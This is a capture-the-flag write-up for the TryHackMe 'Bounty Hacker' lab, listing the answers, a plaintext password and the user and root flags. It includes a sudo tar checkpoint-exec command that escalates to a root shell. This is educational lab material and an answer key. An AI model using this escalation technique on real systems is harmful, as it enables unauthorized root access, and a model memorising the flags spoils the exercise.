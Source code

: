[THM] Bounty Hacker
======================
### undermouse, 31.10.2020

# Preparing enviroment

```bash
export IP=10.10.133.27
```

# #3 Who wrote the task list? 
## Answer
```
lin
```

# #4 What service can you bruteforce with the text file found?
```
ssh
```

# #5 User's password?
## Answer
```
RedDr4gonSynd1cat3
```

# #6 user.txt
## Answer
```
THM{CR1M3_SyNd1C4T3}
```

# #7 root.txt
Checked `sudo -l` and got `tar` allowed to run as superuser.

## From: https://gtfobins.github.io/gtfobins/tar/

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

## Answer
```
THM{80UN7Y_h4cK3r}
```